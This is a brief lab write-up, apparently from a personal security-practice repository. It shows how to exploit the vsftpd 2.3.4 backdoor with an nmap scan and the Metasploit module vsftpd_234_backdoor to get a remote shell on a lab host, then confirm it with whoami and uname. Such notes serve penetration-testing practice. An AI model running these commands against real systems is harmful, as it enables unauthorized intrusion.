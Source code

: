 [🏠 Home](../README.md) • [🧪 Labs](../labs/README.md) • [🗒️ Notes](../notes/README.md)

# 🐚 FTP Exploit – vsftpd 2.3.4

## 🎯 Objective
Exploit a known backdoor vulnerability in vsftpd 2.3.4 to gain a remote shell.

## 🔧 Tools Used
- Metasploit Framework
- Nmap (optional pre-scan)

## 🪜 Steps
1. Scan with Nmap:
    ```
    nmap -sV -p 21 172.21.175.100
    ```

2. Launch Metasploit:
    ```
    msfconsole
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOST 172.21.175.100
    run
    ```

3. Verify shell:
    ```
    whoami
    uname -a
    ```

## 🧠 Notes
- Sometimes requires restarting the target or switching payloads.
- May need to set `PAYLOAD cmd/unix/interact`.

---
